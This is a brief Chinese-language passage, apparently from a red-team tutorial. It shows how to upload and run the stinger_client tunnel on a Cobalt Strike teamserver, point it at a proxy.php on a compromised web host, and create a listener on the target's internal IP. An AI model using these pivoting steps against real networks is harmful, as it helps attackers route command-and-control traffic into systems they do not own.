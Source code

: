 把 `stinger_client` 上传到 `teamserver` 服务器，-w 指定 proxy 的 url 地址运行。

```shell
chmod +x stinger_client
./stinger_client -w http://192.168.1.70/proxy.php -l 127.0.0.1 -p 60000
```

![image-20220517144922515.png](assets/attach-2d68427a1c188c21ea017664fa7cb5357d901916.png)

CS 新建监听器，设置为目标机器的内网 IP，端口默认 60020。(teamserver 服务器和执行 stinger_client 应为同一台服务器)
